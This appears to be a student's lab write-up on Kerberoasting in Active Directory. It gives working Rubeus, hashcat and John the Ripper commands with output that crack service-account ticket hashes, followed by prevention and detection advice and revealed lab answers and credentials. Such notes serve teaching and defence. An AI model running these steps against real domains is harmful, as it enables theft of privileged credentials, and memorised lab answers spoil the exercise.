







import RevealFlag from '@site/src/components/RevealFlag';

# Kerberoasting

## Description

In `Active Directory`, a [Service Principal Name (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) is a unique service instance identifier. `Kerberos` **uses SPNs for authentication to associate a service instance with a service logon account**, **which allows a client application to request that the service authenticate an account even if the client does not have the account name**. When a `Kerberos TGS service ticket` is asked for, it **gets encrypted with the service account's `NTLM password hash`**.

`Kerberoasting` is a **post-exploitation attack** that attempts to exploit this behavior by obtaining a ticket and performing offline password cracking to `open` the ticket. **If the ticket opens, then the candidate password that opened the ticket is the service account's password**. The success of this attack depends on the strength of the service account's password. Another factor that has some impact is the **encryption algorithm used** when the ticket is created, with the likely options being:

- `AES`
- `RC4`
- `DES`
  - *(found in environments that are 15+ old years old with legacy apps from the early 2000s, otherwise, this will be disabled)*

There is a significant difference in the cracking speed between these three, as `AES` is slower to crack than the others. While **security best practices recommend disabling `RC4` (and `DES`, if enabled for some reason)**, most environments do not. The caveat is that not all application vendors have migrated to support `AES` (most but not all). By default, the ticket created by the `KDC` will be one with the **most robust/highest encryption algorithm** supported. **However, attackers can force a downgrade back to** `RC4`.

---

## Attack path

To obtain crackable tickets, we can use [Rubeus](https://github.com/GhostPack/Rubeus). When we run the tool with the `kerberoast` action without specifying a user, it will extract tickets for every user that has an `SPN registered` *(this can easily be in the hundreds in large environments)*:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : eagle.local
[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : Administrator
[*] DistinguishedName      : CN=Administrator,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : http/pki1
[*] PwdLastSet             : 07/08/2022 12.24.13
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt


[*] SamAccountName         : webservice
[*] DistinguishedName      : CN=web service,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : cvs/dc1.eagle.local
[*] PwdLastSet             : 13/10/2022 13.36.04
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\spn.txt
PS C:\Users\bob\Downloads>
```



We then need to move the extracted file with the tickets to the Kali Linux VM for cracking (we will only focus on the one for the account Administrator, even though `Rubeus` extracted two tickets).

We can use `hashcat` with the hash-mode (option `-m`) `13100` for a `Kerberoastable TGS`. We also pass a dictionary file with passwords (the file `passwords.txt`) and save the output of any successfully cracked tickets to a file called `cracked.txt`:

```bash
trustinveritas@htb[/htb]$ hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"

hashcat (v6.2.5) starting

<SNIP>

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$eagle.local$http/pki1@ea...42bb2c
Time.Started.....: Tue Dec 13 10:40:10 2022, (0 secs)
Time.Estimated...: Tue Dec 13 10:40:10 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   143.1 kH/s (0.67ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Tue Dec 13 10:39:35 2022
Stopped: Tue Dec 13 10:40:11 2022
```



(If `hashcat` gives an error, we may need to pass `--force` as an argument at the end of the command.)

Once `hashcat` finishes cracking, we can read the file 'cracked.txt' to see the password `Slavi123` in plain text:

```bash
trustinveritas@htb[/htb]$ cat cracked.txt

$krb5tgs$23$*Administrator$eagle.local$http/pki1@eagle.local*$ab67a0447d7db2945a28d19802d0da64$b6a6a8d3fa2e9e6b47dac1448ade064b5e9d7e04eb4adb5d97a3ef5fd35c8a5c3b9488f09a98b5b8baeaca48483df287495a31a59ccb07209c84e175eef91dc5e4ceb9f7865584ca906965d4bff757bee3658c3e3f38b94f7e1465cd7745d0d84ff3bb67fe370a07cb7f5f350aa26c3f292ee1d7bc31b97db7543182a950c4458ee45f1ff58d1c03b713d11a559f797b85f575aabb72de974cf48c80cbbc78db245c496d3f78c50de655e6572627904753fe223148bc32063c6f032ecdcb901012a98c029de2676905aff97024c89c9d62a73b5f4a614dfd37b90a30a3335326c61b27e788619f84dc0993661be9a9d631d8e4d89d70023b27e5756a23c374f1a59ed15dbe28147296fae252a6d55d663d61759d6ee002b4d3814ada1cafb8997ed594f1cfab6cdb503058b73e192228257d834fd420e9dbc5c12cfffb2077aa5f2abef8cac07ee6cdc7630be71ed174ee167ea0d95df14f48e3e576aa4f90b23d44378d4533cbad945b830bf59f2814ff2dec8832561c3c67bd43afebb231d8f16b1f218dfda803619a47ac833330dde29b34eb73a4aba7da93d7664b92534e44beb80b5ad22a5f80d72f5c476f1796d041ade455eee50651d746db75490bd9a7165b2638c79973fc03c63a67e2659e3057fbe2bce22175116a3892e95a418a02908e0daea3293dc01cd172b524217efe56d842cf8b6f369f30657cd40fe482467d4f2a3a7f3c1caf52cf5f2afc7454fb934a0fb13a0da76dbcefecc32da3a719cd37f944ea13589ce373163d56eb5e8c2dc3fb567b1c5959b7e4e3e054ea9a5561776bed7c2d9eb3107645efce5d22a033891758ac57b187a19006abdbe3f5d53edfc09e5359bc52538afef759c37fbe00cc46e4968ec69072761c2c796bd8e924521cc6c3a50fc1db09e5ce1d443ff3962ca1878904a8252d4f827bcb1e6d6c38bf1fd8ccc21d70751008ece94699aa3caa7e671cb48afc8eb3ecbf181c6e0ed52f740f07e87025c28e4fd832192a66bc390923ea397527264fe382056be78d791f80d0343bbf60ffd09dce061825595f69b939eaa517dc89f4527094bda0ae6febb03d8af3fb3e527e8b5501bbd807ed23ed9bcf85b74be699bd42a284318c42d90dbbd4df332d654529b23a5d81bedec69dba2f3e308d7f8db058377055c15b9eae6275f60a7ec1d52077546caa2b78cf798769a0096d590bb5d5d5173a67a32c2eba174e067a9bf8b4e1f190f8816bf2d6741a8bd6e4e1a6e7ca5ac745061a93cde0ab03ee8cf1de80afa0674a4248d38efdc77aca269e2388c43c83a3919ef80e9a9f0005b1b40026fc29e6262091cbc4f062cf95d5d7e051c019cd0bd5e85b8dcb16b17fd92820e1e1581265a4472c3a5d1f42bb2c:Slavi123
```



Alternatively, the captured `TGS` hashes can be cracked with `John The Ripper`:

```bash
[eu-academy-2]─[10.10.15.245]─[htb-ac-594497@htb-mw2xldpqoq]─[~]
└──╼ [★]$ sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot

Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Node numbers 1-4 of 4 (fork)
Slavi123         (?)
Slavi123         (?)
```

---

## Prevention

The success of this attack **depends on the strength of the service account's password**. While **we should limit the number of accounts with SPNs** and **disable those no longer used/needed**, we must ensure they have strong passwords. For any service that supports it, the password should be **100+ random characters** (*127 being the maximum allowed in AD*), which ensures that **cracking the password is practically impossible**.

There is also what is known as [Group Managed Service Accounts](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) (`GMSA`), which is **a particular type of a service account that Active Directory automatically manages**; this is a perfect solution because **these accounts are bound to a specific server**, and `no` **user can use them anywhere else**. Additionally, `Active Directory automatically rotates the password of these accounts to a random 127 characters value`. There is a caveat: **not all applications support these accounts**, as they work mainly with Microsoft services (such as `IIS` and `SQL`) and a few other apps that have made integration possible. However, we should utilize them everywhere possible and start enforcing their use for new services that support them to out phase current accounts eventually.

When in doubt, **do not assign SPNs to accounts** that do not need them. Ensure **regular clean-up of SPNs** set to no longer valid services/servers.

---

## Detection

When a `TGS` is requested, an `event log` with [ID 4769](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4769) is generated. However, **AD also generates the same event ID whenever a user attempts to connect to a service**, which means that the volume of this event is gigantic, and relying on it alone is virtually impossible to use as a detection method. If we happen to be in an environment where all applications support `AES` and only `AES` tickets are generated, then it would be an excellent indicator to alert on [event ID 4769](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4769). If the ticket options is set for `RC4`, that is, if `RC4` tickets are generated in the AD environment (which is not the default configuration), then we should alert and follow up on it. Here is what was logged when we requested the ticket to perform this attack:



Even though the general volume of this event is quite heavy, we still can alert against the default option on many tools. When we run `Rubeus`, it will extract a ticket for `each` user in the environment with an SPN registered; **this allows us to alert if anyone generates more than ten tickets within a minute** (for example, but it could be less than ten). This event ID should be grouped by the user requesting the tickets and the machine the requests originated from. Ideally, we need to aim to create two separate rules that alert both. In our playground environment, there are two users with SPNs, so when we executed `Rubeus`, AD generated the following events:



---

## Honeypot 🍯

A `honeypot user` is a perfect detection option to configure in an AD environment; this must be a user with no real use/need in the environment, so no service tickets are generated regularly. In this case, **any attempt to generate a service ticket for this account is likely malicious and worth inspecting**. There are a few things to ensure when using this account:

- The account must be a `relatively old user`, ideally one that has become bogus (***advanced threat actors** will **not request tickets for new accounts** because they likely have strong passwords and the **possibility of being a honeypot user***).

- The `password should not have been changed recently`. A good target is `2+ years`, `ideally five or more`. But the **password must be strong enough that the threat agents cannot crack it**.

- The `account must have some privileges assigned` to it; otherwise, **obtaining a ticket for it won't be of interest** (*assuming that an advanced adversary obtains tickets only for interesting accounts/higher likelihood of cracking, e.g., due to an old password*).

- The account must have an `SPN registered`, which appears legit. `IIS` and `SQL` accounts are good options because they are prevalent.

:::tip
An added benefit to honeypot users is that **any activity with this account**, whether `successful` or `failed logon` **attempts**, is **suspicious** and should be alerted.
:::

If we go back to our playground environment and configure the user `svc-iam` (*probably an old `IAM` account leftover*) with the recommendations above, then any request to obtain a `TGS` **for that account should be alerted on**:



---

## Be Careful 🚨

Although we give examples of `honeypot` detections in many of the attacks described, it does not mean an **AD environment should implement every single one**. That would make it evident to a threat actor that the AD administrator(s) have set many traps. We must consider all the detections and enforce the ones that work best for our AD environment.

---

## Questions

### `1. Connect to the target and perform a Kerberoasting attack. What is the password for the svc-iam user?`

<RevealFlag>{`mariposa`}</RevealFlag>

#### [Rubeus](https://github.com/GhostPack/Rubeus)

```powershell
PS C:\WINDOWS\system32> cd C:\Users\bob\Downloads
PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : eagle.local
[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : Administrator
[*] DistinguishedName      : CN=Administrator,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : http/pki1
[*] PwdLastSet             : 07/08/2022 21.24.13
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt


[*] SamAccountName         : webservice
[*] DistinguishedName      : CN=web service,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : cvs/dc1.eagle.local
[*] PwdLastSet             : 13/10/2022 22.36.04
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt


[*] SamAccountName         : svc-iam
[*] DistinguishedName      : CN=svciam,OU=Detections,OU=EagleUsers,DC=eagle,DC=local
[*] ServicePrincipalName   : http/server1
[*] PwdLastSet             : 05/04/2023 13.23.13
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\spn.txt
```

#### [hashcat](https://hashcat.net/hashcat/)

```powershell
PS C:\Tools\hashcat-6.2.6> .\hashcat.exe -m 13100 -a 0 "C:\Users\trustinveritas\Desktop\spn.txt" "C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt" --outfile="C:\Users\trustinveritas\Desktop\cracked.txt"
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: 12th Gen Intel(R) Core(TM) i9-12900H, 8159/16382 MB (4095 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

INFO: Removed hash found as potfile entry.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt
* Passwords.: 5189454
* Bytes.....: 48312893
* Keyspace..: 5189454

Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: C:\Users\trustinveritas\Desktop\spn.txt
Time.Started.....: Tue Apr 22 18:18:00 2025 (3 secs)
Time.Estimated...: Tue Apr 22 18:18:03 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3547.0 kH/s (1.44ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/3 (33.33%) Digests (total), 0/3 (0.00%) Digests (new), 1/3 (33.33%) Salts
Progress.........: 15568362/15568362 (100.00%)
Rejected.........: 0/15568362 (0.00%)
Restore.Point....: 5189454/5189454 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: .hfhjc2003 -> !!!!!!55

Started: Tue Apr 22 18:17:59 2025
Stopped: Tue Apr 22 18:18:04 2025
```

---

### `2. After performing the Kerberoasting attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the ServiceSid of the webservice user?`

<RevealFlag>{`S-1-5-21-1518138621-4282902758-752445584-2110`}</RevealFlag>

#### Open Event Viewer

- Filter Event ID(s) 4769
- Under `Details` find the **ServiceSid**

